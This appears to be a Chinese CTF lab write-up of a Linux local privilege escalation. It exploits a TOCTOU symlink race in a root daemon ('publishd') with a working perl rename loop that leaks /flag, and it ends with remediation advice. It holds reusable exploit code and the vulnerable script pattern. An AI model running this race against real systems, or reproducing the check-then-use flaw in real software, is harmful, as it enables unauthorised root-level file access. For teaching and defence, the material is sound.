# 2-4 内网渗透与高级社工 · 权限提升维持（TOCTOU 符号链接竞态提权）

## 题目信息

| 项目 | 内容 |
| --- | --- |
| 题目名称 | 内网渗透与高级社工-权限提升维持-G4（平台章节 7259，实战 Flag 题 11227） |
| 分类 | 内网渗透 / Linux 本地提权（TOCTOU 检查与使用分离 + 符号链接竞态） |
| 题目描述 | 某公司发起了一次安全众测活动，开放了一台服务器作为测试目标，只允许使用一个受限账号，官方声明这台机器已无法被进一步提权，悬赏征集反例。访问题目端口即可获得该账号（`player`）的 Web 终端。请设法取得 root 权限，读取 `/flag`，拿下这份悬赏。 |

## 环境信息

| 项目 | 内容 |
| --- | --- |
| 平台 | VMCourse 实训平台，课程 1639，章节 7259《内网渗透与高级社工-权限提升维持-G4》 |
| 靶机 Web 终端 | ttyd：`http://172.17.0.13:12426/`，打开即为 `player` 已登录 shell |
| SSH | `172.17.0.13:12425`（`player` 账号，密码未知，本次全程未使用） |
| 实例 | 环境 C080-G4-F（envID 1401 / podID `3ho1lj34dgozk4us7uocqas2u`，镜像 c080-g4-f，容器内 22/80 端口） |
| 容器主机 | `dceae9fc88f6`；Debian GNU/Linux 12 (bookworm)；kernel 5.10.220 |
| 操作方式 | 用本地脚本 `.local/process/ttyd_drive.py` 通过 WebSocket 驱动 ttyd 下发命令：`python3 .local/process/ttyd_drive.py 172.17.0.13:12426 "<命令>"`；截图用 headless Chrome（playwright-core） |
| 备注 | 本章节 5 题已在平台提交并全部判对（4 道选择题 11109 / 11111 / 11113 / 11115 与 flag 题 11227 全部「作答正确」，判分复核见步骤 12）；选择题作答过程与解析不在本文范围，本文聚焦 TOCTOU 竞态提权实战链 |

## 解题过程

### 1. 立足确认：进入 Web 终端，确认身份与 `/flag` 只读（截图 01）

打开靶机 Web 终端即已以 `player` 落在容器中，无需登录。先确认当前身份与目标：

```
$ id; hostname; uname -r
uid=1000(player) gid=1000(player) groups=1000(player)
dceae9fc88f6
5.10.220
$ cat /etc/os-release | head -2
PRETTY_NAME="Debian GNU/Linux 12 (bookworm)"
NAME="Debian GNU/Linux"
$ ls -la /flag; cat /flag
-rw------- 1 root root 38 Sep 20 02:36 /flag
cat: /flag: Permission denied
```

当前为低权限 `player`（uid=1000），`/flag` 为 root 属主、`600` 权限、38 字节，直读被拒。题目要求取得 root 权限读取 `/flag`，「官方声明无法进一步提权」意味着必须找出题面设计中遗留的高权限操作面。



### 2. 失败尝试一：sudo 需密码、SUID 与 capabilities 均无异常（截图 02）

按「先枚举后利用」的顺序，先检查最常见的三条常规提权路线：

```
$ sudo -n -l 2>&1 | tail -2
sudo: unable to resolve host dceae9fc88f6: Temporary failure in name resolution
sudo: a password is required
$ find / -perm -4000 -type f 2>/dev/null
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/mount
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/su
/usr/bin/umount
/usr/bin/sudo
/usr/lib/openssh/ssh-keysign
$ getcap -r / 2>/dev/null; echo CAPS-END
CAPS-END
```

- 失败原因：`player` 没有免密 sudo 条目且密码未知（`-n` 非交互模式直接报 `a password is required`；开头的主机名解析告警为容器内无害提示）；SUID 列表全部为发行版自带程序，无 G2 中 `svcstat` 那样的异常项；capabilities 为空（`CAPS-END` 前无任何输出）；
- 如何调整：放弃常规路线，转向「以 root 运行的常驻进程」分析——与 G3 的 cron 任务同属「高权限自动化操作」大类，但这次要盯的是守护进程而不是计划任务。



### 3. 进程枚举：发现 root 常驻循环任务 publishd（截图 03）

```
$ ps -eo user,pid,args | grep -E "publishd|sleep 0.2" | grep -v grep
root          11 /bin/sh /usr/local/sbin/publishd
root       18387 sleep 0.2
$ ls -la /usr/local/sbin/publishd
-rwxr-xr-x 1 root root 280 Aug 20 09:30 /usr/local/sbin/publishd
$ ls -ld /var/spool/publish /var/published/out
-rw-r--r-- 1 root   root      0 Sep 20 02:54 /var/published/out
drwxr-xr-x 1 player player   20 Sep 20 02:43 /var/spool/publish
```

- 名为 `publishd` 的脚本以 root 身份常驻运行（PID 11），其子进程 `sleep 0.2` 表明它是一个高频循环；
- 脚本本身 root 属主，但它的工作目录 `/var/spool/publish` 属主是 `player`；产物 `/var/published/out` 为 root 属主；
- 「root 进程 + 可写的输入目录 + 输出到高权限路径」正是需要重点审计的组合。



### 4. 审计 publishd 脚本：确认「检查与使用分离」的 TOCTOU 结构（截图 04）

```
$ cat /usr/local/sbin/publishd
#!/bin/sh

d=/var/spool/publish
f="$d/report"
dest=/var/published/out

while true; do
    if [ -f "$f" ] && [ ! -L "$f" ]; then
        date >> /var/log/publish.log 2>/dev/null
        cat "$f" > "$dest" 2>/dev/null
        chmod 644 "$dest" 2>/dev/null
    fi
    sleep 0.2
done
```

脚本逻辑一目了然，且存在典型的 TOCTOU 反模式：

- **检查**：`[ -f "$f" ] && [ ! -L "$f" ]`——要求 `report` 是普通文件且不是符号链接；
- **使用**：`cat "$f" > "$dest"`——按**同一路径字符串**重新打开该文件，此时会正常跟随符号链接；
- 检查与使用之间没有任何锁，也没有复用同一个文件描述符；中间还隔了一次 `date >> /var/log/publish.log` 的 fork/exec，窗口被进一步放大；
- 只要让「检查瞬间看到普通文件、`cat` 打开瞬间看到指向 `/flag` 的符号链接」，root 就会把 `/flag` 的内容当成 report 发布出来。



### 5. 确认利用条件：spool 目录可写、正常发布功能可用（截图 05）

先确认输入目录的属主/权限，并验证「写 report → out 出现」的正常链路确实工作：

```
$ ls -ld /var/spool/publish /var/published /var/published/out
drwxr-xr-x 1 root   root   17 Aug 20 09:31 /var/published
-rw-r--r-- 1 root   root    0 Sep 20 02:42 /var/published/out
drwxr-xr-x 1 player player 20 Sep 20 02:39 /var/spool/publish
$ echo MARKER-OK > /var/spool/publish/report
$ sleep 1; cat /var/published/out
MARKER-OK
$ wc -l /var/log/publish.log; sleep 1; wc -l /var/log/publish.log
882 /var/log/publish.log
887 /var/log/publish.log
```

- `/var/spool/publish` 属主 `player` 且可写——被 root 进程使用的目录却由低权限用户控制，这是整条利用链的第一环；
- 写入 `report` 后 1 秒内 `out` 即出现 `MARKER-OK`，证明发布链路真实工作；
- 日志 1 秒增加 5 行（0.2 秒周期），确认 publishd 在持续高频循环，竞态窗口反复出现。



### 6. 失败尝试二：直写发布产物被拒、纯符号链接被 `[ ! -L ]` 拦截（截图 06）

最直接的两个想法先后被拒：

```
$ echo pwn > /var/published/out
bash: /var/published/out: Permission denied
$ ln -sf /flag /var/spool/publish/report
$ sleep 1; ls -la /var/spool/publish/; cat /var/published/out
total 0
drwxr-xr-x 1 player player 20 Sep 20 02:42 .
drwxr-xr-x 1 root   root   21 Aug 20 09:31 ..
lrwxrwxrwx 1 player player  5 Sep 20 02:42 report -> /flag
MARKER-OK
```

- `echo pwn > /var/published/out` 被拒：输出侧 `/var/published/` 为 root 属主，普通用户不能写——攻击面在「输入侧」（report）而不在输出侧；
- `ln -sf /flag report` 之后等待 1 秒，`out` 仍是上一次的 `MARKER-OK`：只要检查瞬间 `report` 是符号链接，`[ ! -L ]` 就会拦截，发布根本不会发生；
- 结论：单纯的符号链接替换无效，必须让「检查」和「使用」落在不同状态上——也就是引入竞态。



### 7. 失败尝试三：硬链接直达 `/flag` 被内核加固拒绝（截图 07）

换一个思路：不创建符号链接，直接让 `report` 成为 `/flag` 的硬链接（这样检查看到的是普通文件且不是 `-L`，`cat` 又会读到 flag）：

```
$ rm -f /var/spool/publish/report
$ ln /flag /var/spool/publish/report
ln: failed to create hard link '/var/spool/publish/report' => '/flag': Operation not permitted
$ sysctl fs.protected_hardlinks 2>/dev/null; ls -la /var/spool/publish/
total 0
drwxr-xr-x 1 player player  6 Sep 20 02:42 .
drwxr-xr-x 1 root   root   21 Aug 20 09:31 ..
```

- 失败原因：内核 `fs.protected_hardlinks` 加固（Debian 默认开启）禁止普通用户对不属于自己的文件创建硬链接，`ln` 直接返回 `Operation not permitted`；截图中查询该参数的命令把回显丢弃了（`2>/dev/null`），未显示参数值；
- 如何调整：硬链接与「一次性的符号链接」都被封死，唯一剩下的路就是**符号链接竞态**——在窗口内把 `report` 在「普通文件」与「指向 `/flag` 的符号链接」之间高频切换。



### 8. 竞态利用：perl 零 fork 原子替换抢占窗口，读出 flag（截图 08）

用 perl 写一个竞态循环，把「普通文件 ↔ 符号链接」的切换压到系统调用级别（无 fork、无外部命令）：

```perl
use strict; use warnings;
my $d='/var/spool/publish'; my $r="$d/report"; my $o='/var/published/out';
my $deadline=time()+90; my $n=0; my $flag;
while (time() < $deadline) {
    symlink('/flag', "$d/.s"); rename("$d/.s", $r);
    open(my $f, '>', "$d/.r") or die "open .r: $!"; close $f; rename("$d/.r", $r);
    $n++;
    if (($n % 1000)==0) {
        if (open(my $g,'<',$o)) {
            local $/; my $c=<$g>; close $g;
            if (defined $c && $c =~ /vmc\{[^}]+\}/) { $flag=$&; last; }
        }
    }
}
print "iterations=$n\n";
if (defined $flag) { print "FLAG_FOUND:$flag\n"; open(my $h,'>','/tmp/flag.out') or die; print $h $flag,"\n"; close $h; system("cp $o /tmp/out.cap 2>/dev/null"); }
else { print "NO_FLAG_YET\n"; }
```

运行与结果：

```
$ rm -f /var/spool/publish/report /var/spool/publish/.s /var/spool/publish/.r
$ perl /tmp/r.pl
iterations=12000
FLAG_FOUND:vmc{rtChHR4wLgkjVwUDCR1aqCDZLuOd6nNE}
```

要点：

- `symlink('/flag', "$d/.s")` 先在临时名上创建指向 `/flag` 的符号链接，再 `rename(".s", "report")` 把它**原子**换到目标路径；
- `open(".r")` 创建普通文件后同样用 `rename(".r", "report")` 原子换回——两种状态都以 `rename(2)` 切换，路径不会出现「不存在」的中间态，切换开销仅两次系统调用（微秒级）；
- publishd 每 0.2 秒检查一次，检查通过后 `cat` 前还有一次 fork/exec，循环高频覆盖使「检查见普通文件、`cat` 见符号链接」的组合被命中；脚本每 1000 次迭代检查一次 `out` 是否出现 `vmc{...}` 并立即留存副本；
- 本轮共两次运行均命中：命令行（ttyd_drive）首次运行 `iterations=9000` 命中；截图中为浏览器内复核运行 `iterations=12000` 命中同一 flag；
- 截图说明：terminal 对超长行存在右缘裁切（长命令行与脚本行尾的 `);` 等字符未完整入镜），脚本实际内容以本文所列（原始记录）为准。



### 9. 验证：player 无法直读 `/flag`，root 产物与其等长（截图 09）

```
$ cat /var/published/out; echo ---; cat /tmp/out.cap
---
vmc{rtChHR4wLgkjVwUDCR1aqCDZLuOd6nNE}
$ ls -la /flag /tmp/out.cap /tmp/flag.out
-rw------- 1 root   root   38 Sep 20 02:36 /flag
-rw-r--r-- 1 player player 38 Sep 20 02:43 /tmp/flag.out
-rw-r--r-- 1 player player 38 Sep 20 02:43 /tmp/out.cap
$ cat /flag
cat: /flag: Permission denied
```

- 证据链：`player` 自己 `cat /flag` 仍被拒（38 字节、root 600），但 root 的 publishd 把同内容（38 字节，含换行）写入了 `/var/published/out`，脚本在命中瞬间抓取的副本 `/tmp/out.cap` 与之等长且内容一致；
- 细节说明：竞态停止后，publishd 会把目录里残留的空 `report` 正常发布，覆盖 `/var/published/out` 为零字节——`cat /var/published/out` 此刻显示为空是机制正常表现，不影响命中副本已经留存；
- flag 文本即 `vmc{rtChHR4wLgkjVwUDCR1aqCDZLuOd6nNE}`，由 root 身份进程读出。



### 10. 利用链与产物复查（截图 10）

最后整体复查脚本、产物属主与大小：

```
$ sed -n 1,12p /usr/local/sbin/publishd
#!/bin/sh

d=/var/spool/publish
f="$d/report"
dest=/var/published/out

while true; do
    if [ -f "$f" ] && [ ! -L "$f" ]; then
        date >> /var/log/publish.log 2>/dev/null
        cat "$f" > "$dest" 2>/dev/null
        chmod 644 "$dest" 2>/dev/null
    fi
$ ls -la /var/published/out /tmp/out.cap
-rw-r--r-- 1 player player 38 Sep 20 02:43 /tmp/out.cap
-rw-r--r-- 1 root   root    0 Sep 20 02:44 /var/published/out
```

- 脚本仍是「检查与使用分离」的结构；`/tmp/out.cap`（player 属主，38 字节）保存着命中瞬间的 flag 副本；
- `/var/published/out` 已被后续发布周期覆盖为 0 字节（root 属主），与第 9 步的说明一致；
- 复查确认整条链：可写目录中的 `report` 竞态切换 → root 检查通过 → root `cat` 跟随符号链接读 `/flag` → 写入 out → 脚本抓取副本。



### 11. 解题过程中的 AI 助教问答（截图 11–15）

围绕 TOCTOU 原理、符号链接竞态手法与防御加固，向课程教学问答平台（Qwen2.5）提了 5 个问题：

**问题 1：TOCTOU（Time-Of-Check-To-Time-Of-Use）的成因与本质是什么？**（截图 11）——模型指出核心在于「检查」与「使用」是两次独立操作、中间没有锁定，窗口内其他进程可以改变文件属性/指向，使基于检查的结论失效；并给出原子操作、文件锁、使用前复核三类缓解思路。核心机理正确；但其开篇把 check-to-use 描述为「一种安全机制」并不准确——它是一类漏洞模式（反模式），本题中正是它导致了提权。



**问题 2：反复把路径在「普通文件 ↔ 指向敏感文件的符号链接」之间切换，为什么能提高命中率？**（截图 12）——单次切换无法保证检查与读取恰好落在不同状态；需要在窗口内高频反复切换来覆盖时序，让高权限进程「检查看到普通文件、读取看到符号链接」。模型把原因部分归为「文件系统同步延迟」，严谨说法应是进程调度与两次系统调用之间的时间差，但「必须反复切换、提高概率」的结论正确，也正是本题脚本每轮循环两次 `rename` 的依据。



**问题 3：为什么用 `rename(2)` 原子替换，而不是先 `rm` 再 `ln` 两步创建？**（截图 13）——`rename(2)` 在同一文件系统内是原子操作，不会出现「路径暂时不存在」的中间态；`rm`+`ln` 的两步之间存在空档，且多出的系统调用会拖慢切换频率、降低抢占成功率。模型个别措辞方向含糊（「降低了竞态的成功率」），但「原子替换优于两步操作、避免中间态」的结论与本题一致。



**问题 4：防御此类竞态提权有哪些手段？**（截图 14）——`O_NOFOLLOW` 拒绝解析符号链接；`open` 后用 `fstat` 校验并**复用同一文件描述符**读取，保证检查与使用针对同一底层对象；把检查+使用合并为单次原子操作，从根上消除窗口。这些正是本题 publishd 所缺失的防护，直接对应总结中的修复建议。



**问题 5：从应急响应与主机加固角度，如何排查「root 守护进程在可写目录按固定路径两步操作文件」这类隐患？**（截图 15）——审计高权限脚本及其工作目录权限，用 auditd 等监控可写目录的写入与文件类型/属主变化，检查高权脚本是否「先检查后使用」；编写高权脚本应遵循最小权限、输入校验、避免裸路径两步操作等。模型个别检测项偏泛（如 PID 文件），但「审计可写目录 + 监控文件类型/属主变化 + 最小权限」的方向正确。



### 12. 提交 Flag 与平台判分（截图 16–18）

将步骤 8 读到的内容作为 flag 提交到平台（flag 题 11227；下列命令仅摘录本题相关部分，4 道选择题 11109 / 11111 / 11113 / 11115 与本题在同一请求中提交）：

```
$ curl -sS -k --noproxy '*' -m 40 -b .local/vmc-cookies.txt \
    -X POST "$VMC_BASE/api/student/submitAnswers" \
    -F "sectionID=7259" \
    -F 'answers={"questionID":11227,"answer":"{\"num\":3,\"answer\":[\"\",\"\",\"vmc{rtChHR4wLgkjVwUDCR1aqCDZLuOd6nNE}\"]}"}' \
    -F "contestMode=0"
# code=0, msg=success
```

填空题被平台规范化为 `{"num":3,"answer":["","true","vmc{...}"]}`。复核 `answerHistory`：5 题（4 道选择题 + flag 题）全部 `isCorrect=true`（截图 18），答题页显示全部「作答正确」（截图 16 为前三题、截图 17 为多选与 flag 题）。顶层 `scoreRate` 显示 0 与 2-1/2-2/2-3 相同，属平台历史显示现象，判分以 `answerHistory.isCorrect` 为准（本步骤对选择题不作展开）。






## Flag

```
vmc{rtChHR4wLgkjVwUDCR1aqCDZLuOd6nNE}
```

## 总结与心得

### 漏洞原理

1. **TOCTOU / 检查与使用分离（根因）**：`publishd` 先做 `[ -f "$f" ] && [ ! -L "$f" ]` 类型检查，再按**同一路径字符串**重新打开读取（`cat`）；两次路径解析之间没有锁、没有复用文件描述符，路径又位于低权限用户可写目录，攻击者可以在窗口内改变 `report` 的指向，「检查通过」的结论在使用时已失效。检查与使用之间还隔了一次 `date >> ...` 的 fork/exec，窗口更大。
2. **符号链接竞态**：目标是让检查看到「普通文件」通过 `[ ! -L ]`，而 `cat` 打开时看到「指向 `/flag` 的符号链接」。单个状态各占一半时间，必须高频切换才能把「检查→读取」先后落在两个不同状态，这是纯符号链接替换（第 6 步失败）不奏效的原因。
3. **`rename(2)` 原子性与零 fork 循环**：`symlink()`/`open()` 先在临时名上准备对象，`rename()` 原子就位，路径始终存在（要么普通文件、要么链接），切换只花两次系统调用；无 fork、无外部命令，90 秒内可迭代上万次，命中后 root 的 `cat` 把 `/flag` 写进 `/var/published/out`。
4. **权限配置缺陷**：root 进程的输入目录归低权用户所有；校验做了类型判断，但使用时按路径重新打开、未绑定同一对象——高权脚本的经典反模式，与 G3（root cron + 可写备份目录）同属「高权限自动化操作 × 用户可控输入」。

### 做题方法

- **按枚举清单收窄面**：`sudo -n -l`（失败）→ `find -perm -4000` / `getcap -r /`（无异常）→ 进程列表（发现 `publishd`），逐步排除常规路线；
- **读脚本找反模式**：看到 `-f`/`-L` 校验与后续 `cat` 使用同一路径，就应立刻联想到 TOCTOU；
- **先验证功能再攻击**：`MARKER-OK` 证明「写 report → out 出现」的正常链路与 0.2s 周期，为竞态提供时序依据；
- **用失败尝试排除简单解**：直写输出侧被拒（攻输入侧）、纯符号链接被 `[ ! -L ]` 拦截（必须竞态）、硬链接被 `fs.protected_hardlinks` 拒绝（只剩符号链接）；
- **选对工具**：perl 的 `symlink`/`open`/`rename` 均为系统调用、无进程创建开销，切换频率远高于 shell 循环；`rename(2)` 保证无中间态；
- **结果自证**：命中副本与 `/flag` 同为 38 字节，而 `player` 直读 `/flag` 仍被拒——证明内容确实由 root 进程读出，而非伪造。

### 修复建议

- **检查与使用复用同一对象（核心修复）**：`open(path, O_RDONLY|O_NOFOLLOW)` 后用 `fstat(fd)` 校验类型/属主，随后**直接从该 fd 读取**并按 fd 发布（等价于把 `cat "$f"` 改为 fd 读取），让「检查过的对象」与「读取的对象」在机制上保证是同一个；
- **用 `O_NOFOLLOW` 拒绝符号链接**，必要时使用 `openat2()` 的 `RESOLVE_NO_SYMLINKS` 等更强约束；避免「先按路径检查、再按路径打开」的两步模式；
- **合并为单次原子操作**：校验+发布在同一个 fd 上完成，或对 spool 文件加 `flock` 互斥，从根上消除窗口；
- **收紧目录与运行权限**：`/var/spool/publish` 应归 root（或专用低权账号）所有并去掉普通用户写权限；`publishd` 若不需要 root，应以最小权限账号运行；
- **审计与监控**：用 auditd/inotify 监控 spool 目录内的创建、改名与文件类型/属主变化，文件完整性监控对 root 属主产物（如 `/var/published/out`）异常变化告警；定期审计高权脚本在可写目录中的「按路径两步操作」写法（与 AI 问答 5 呼应）。
